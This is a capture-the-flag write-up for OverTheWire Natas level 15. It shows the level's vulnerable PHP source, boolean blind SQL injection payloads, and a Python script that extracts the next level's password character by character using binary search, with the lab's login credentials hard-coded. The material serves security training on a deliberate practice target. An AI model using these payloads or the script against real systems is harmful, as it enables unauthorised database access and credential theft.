 # Level 15

URL : http://natas15.natas.labs.overthewire.org/index.php

## solution

here is the source code for this level:

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?> 
```

In this level we will be dealing with a Blind-based SQL injection (`a Boolean based one`).  
After inspecting the source code, we can see that no real data from DB is sent to us after query execution, but we only see three (3) possible responses.  
1. This user exists.
2. This user doesn't exist.
3. Error in query.


----------------------
### Password retrieval method 

1. get password length first

According to previous challenges, length for all passwords is 32 chars.We can verify this by injecting in username field the following payload.
I have already explained injection method in the previous writeup.
```sql
natas16" and length(password) = 32#
```
if the output is "This user exists.", then password length is indeed 32, else it is not (I know it is 32 )

To retrieve the password, we can use `LIKE` or `strcmp()` function of MySql.

Let's try something.

username: **natas16" and strcmp(BINARY substr(password, 1, 1), "W") = 0#**

If after the previous injection we get the output saying `This user exists.`, then we know that the first character of the password is indeed `W`.

- substr(password, 1, 1) gets the first character of the password column.
- strcmp(str1, str2) compares the strings `str1` and `str2`, returns the distance between the two operands.
- **BINARY** is used for case-sensitivity.


### Exploitation

Now that we know the logic behind the method, we can automate the injection.

Here is my python script to get the full password using binary search to speed things up.

```python
import requests
import string

password = ""
charset = "".join(sorted(string.ascii_letters + string.digits))

pass_len = 32 # you can check it using this payload natas16" and length(password) = 32#

charset_len = len(charset)

URL = "http://natas15.natas.labs.overthewire.org/index.php"
s = requests.Session()
s.auth = ("natas15", "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J")
payload = {"username": ""}
# let's use binary search to speed things up

for i in range(1, 32+1):
    lo = 0
    hi = charset_len - 1
    while True:
        if (hi < lo):
            password += charset[lo]
            print("current password: {}".format(password))
            break
        index = (lo + hi) // 2
        possible_char = charset[index]
        payload["username"] = 'natas16" and strcmp(BINARY substr(password, {}, 1), "{}") > 0#'.format(i, possible_char)
        res = s.post(URL, data=payload)
        if res.status_code == 200:
            if "user exists" in res.text:
                lo = index + 1
            else:
                hi = index - 1

```










